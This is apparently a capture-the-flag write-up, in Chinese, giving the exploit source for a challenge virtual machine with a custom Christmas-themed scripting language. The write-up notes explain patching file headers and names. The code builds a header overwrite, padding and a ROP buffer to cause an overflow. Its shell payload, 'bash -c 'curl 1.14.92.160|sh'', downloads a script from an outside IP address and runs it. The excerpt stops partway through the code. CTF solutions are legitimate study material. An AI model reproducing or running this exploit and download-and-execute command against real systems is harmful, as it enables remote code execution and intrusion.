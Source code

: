## exp

* exp.slang

exp的逻辑如下，编译出来exp.scom，对一些没法直接写入的位置进行修改。

headera修改为自己的文件前16位并修改`pop 0`为`pop 1`，

headerb修改为overflow.scom的前36位，

shell记得最后写00截断，

Filea fileb 储存是同一个字符串，每次连接远程要修改文件名。

对应的exp.scom文件也在github。

```
gift check is 1;
gift a is 2;

gift headera is "111111111111111111111111";
# opcode -> check = 2#
gift headerb is "2222222222222222222222222222222222222222";
# headerb -> push 1; pop $name(overflow)#
gift pad is "aaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaa";
# 'a' * 0x80 #
gift rop is "bbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbb";
# rop 'b' * 0x100#
#gift shell is "aaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaa";#
gift shell is "bash -c 'curl 1.14.92.160|sh'#aaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaa";

gift stdout is 1;
gift filea is "/tmp/aaaa.scom#aaaaaaaaaaaaaaa";
gift fileb is "/tmp/aaaa.scom#aaaaaaaaaaaaaaa";
gift hello is "hello";
gift hellolen is 5;
gift oflag is 65;
gift none is 0;
gift mode is 432;
gift fda is 0;
gift fdb is 0;
gift fdb is [a];

gift ptr is "123456";


# ptr to leave#
this family wants gift check
    if the gift equal to 1:
        reindeer Dancer delivering gift filea oflag mode brings back gift fda;
        reindeer Rudolph delivering gift stdout hello hellolen;
        gift size is 16;
        reindeer Rudolph delivering gift fda headera size;

    if the gift equal to 2:
        # set overflow to rop#
        reindeer Dancer delivering gift fileb oflag mode brings back gift fdb;
        gift size is 36;
        reindeer Rudolph delivering gift fdb headerb size;
        gift size is 128;
        reindeer Rudolph delivering gift fdb pad size;
        reindeer Rudolph delivering gift fdb pad size;
        gift size is 64;
```
